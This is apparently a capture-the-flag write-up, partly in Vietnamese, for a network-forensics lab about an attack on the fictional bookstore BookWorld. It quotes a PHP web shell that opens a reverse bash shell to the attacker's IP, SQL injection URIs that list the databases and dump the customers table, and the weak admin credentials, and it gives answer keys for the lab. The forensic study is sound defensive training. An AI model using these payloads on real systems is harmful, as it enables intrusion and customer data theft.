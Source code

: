 ![ảnh](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/fd675ced-9e1e-4c13-9821-95b06bb7eff0)## Instructions:

   ### Uncompress the lab (pass: cyberdefenders.org)

## Scenario:

### You are a cybersecurity analyst working in the Security Operations Center (SOC) of BookWorld, an expansive online bookstore renowned for its vast selection of literature. BookWorld prides itself on providing a seamless and secure shopping experience for book enthusiasts around the globe. Recently, you've been tasked with reinforcing the company's cybersecurity posture, monitoring network traffic, and ensuring that the digital environment remains safe from threats.

### Late one evening, an automated alert is triggered by an unusual spike in database queries and server resource usage, indicating potential malicious activity. This anomaly raises concerns about the integrity of BookWorld's customer data and internal systems, prompting an immediate and thorough investigation.

### As the lead analyst on this case, you are required to analyze the network traffic to uncover the nature of the suspicious activity. Your objectives include identifying the attack vector, assessing the scope of any potential data breach, and determining if the attacker gained further access to BookWorld's internal systems.

## Tools:

   ### Wireshark
   ### Network Miner

## Q1: By knowing the attacker's IP, we can analyze all logs and actions related to that IP and determine the extent of the attack, the duration of the attack, and the techniques used. Can you provide the attacker's IP?
* Mở file xem conversation của các ip thì mình thấy có hai ip giao tiếp với nhau nhiều nhất là

![Screenshot 2024-04-04 154742](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/ab45fe29-a753-4181-af34-402dc8530cee)

* Mình thử xem các packet http của hai địa chỉ ip này thì tìm POST request thì thấy xuất phát từ địa chỉ ip 111.224.250.131 có upload một file khá lạ, mình thử xem nội dung file đó thì đúng là một hành vi tấn công

![Screenshot 2024-04-04 155821](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/6ed22dd8-9f08-4926-9ee2-2a94ae3351ec)

* Một file NVri2vhp.php được upload với nội dung <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>

![Screenshot 2024-04-04 160058](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/4b96bd18-bbc7-44af-8121-5cb7cd7b278a)

* Dòng lệnh php này sử dụng để mở một cổng 443 tại địa chỉ 111.224.250.131, cho phép kẻ tấn công thực hiện lệnh bash từ xa nhằm mục đích tấn công

`Answer: 111.224.250.131`

## Q2: If the geographical origin of an IP address is known to be from a region that has no business or expected traffic with our network, this can be an indicator of a targeted attack. Can you determine the origin city of the attacker?
* Từ địa chỉ ip mình tìm được địa chỉ thành phố của kẻ tấn công

![Screenshot 2024-04-04 163105](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/9f2577e0-ea02-4522-862b-9fbdf965fce6)

`Answer: Shijiazhuang`

## Q3: Identifying the exploited script allows security teams to understand exactly which vulnerability was used in the attack. This knowledge is critical for finding the appropriate patch or workaround to close the security gap and prevent future exploitation. Can you provide the vulnerable script name?
* file bị kẻ tấn công dùng để khai thác thông tin là search.php

![Screenshot 2024-04-04 163437](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/ff82321c-0408-4797-86ba-877e6ac9c9ad)

* Tại đây kẻ tấn công đã sử dụng SQL injection để tấn công database của bên nạn nhân

`Answer: search.php`

## Q4: Establishing the timeline of an attack, starting from the initial exploitation attempt, What's the complete request URI of the first SQLi attempt by the attacker?
* Dựa trên thời gian tấn công thì URI của câu lệnh đầu tiên là Request URI: /search.php?search=book%20and%201=1;%20--%20-

![Screenshot 2024-04-04 163942](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/3a53930e-3afb-4ab8-ad85-c92b65fc902a)

* URL decode được /search.php?search=book and 1=1; -- -

`Answer: /search.php?search=book%20and%201=1;%20--%20-`

## Q5: Can you provide the complete request URI that was used to read the web server available databases?
* Mình thấy có rất nhiều câu lệnh sqli nên đã dựa vào câu hỏi là tất cả những data có thể xem nên mình tìm những câu lệnh có union all, không nên có những câu lệnh điều kiện như case when, where để tránh sự thiếu sót dữ liệu

![Screenshot 2024-04-04 170222](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/ad2ecb8d-5177-453c-b38a-f60ea7d3e3ef)

* Sau khi tìm kiếm những điều kiện trên thì mình đã tìm thấy /search.php?search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,schema_name)),0x7176706a71) FROM INFORMATION_SCHEMA.SCHEMATA-- -

`Answer: /search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-`
  
## Q6: Assessing the impact of the breach and data access is crucial, including the potential harm to the organization's reputation. What's the table name containing the website users data?
* Câu lệnh mà tìm kiếm data người dùng có các thuộc tính liên quan đến người dùng như email, name, username,... nên mình đã thử tìm kiếm và thấy được 

![Screenshot 2024-04-04 170641](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/2c0f9cc6-9fa6-40ca-8279-5c79fede2366)

* Câu lệnh /search.php?search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,address,email,first_name,id,last_name,phone)),0x7176706a71) FROM bookworld_db.customers-- - lấy dữ liệu từ bảng customers

![Screenshot 2024-04-04 170910](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/fd789d21-972d-417f-a14b-5001901a57af)

`Answer: customers`

## Q7: The website directories hidden from the public could serve as an unauthorized access point or contain sensitive functionalities not intended for public access. Can you provide name of the directory discovered by the attacker?
* kẻ tấn công đã tìm kiếm trong directory admin nơi mà chứa các thông tin mật như username, password của user cũng như admin

![Screenshot 2024-04-04 172042](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/581fc2a9-353d-4f0e-bc8e-5c752daea4e0)

`Answer: /admin/`

## Q8: Knowing which credentials were used allows us to determine the extent of account compromise. What's the credentials used by the attacker for logging in?
* Mình tìm thấy các credentials mà kẻ tấn công sử dụng

![Screenshot 2024-04-04 174509](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/bf32376b-0b12-4106-ae00-0ea7d53cea75)

* username admin và password admin123! được sử dụng cuối cùng và sau đó kẻ tấn công đã truy cập được vào

`Answer: admin:admin123!`

## Q9: We need to determine if the attacker gained further access or control on our web server. What's the name of the malicious script uploaded by the attacker?
* Như mình đã tìm được ở Q1 thì file được upload lên là NVri2vhp.php nhằm tạo backdoor để sử dụng các câu lệnh từ xa

![Screenshot 2024-04-04 175350](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/708e4218-c2e3-4493-a4af-abc7ae60ba53)

`Answer: NVri2vhp.php`
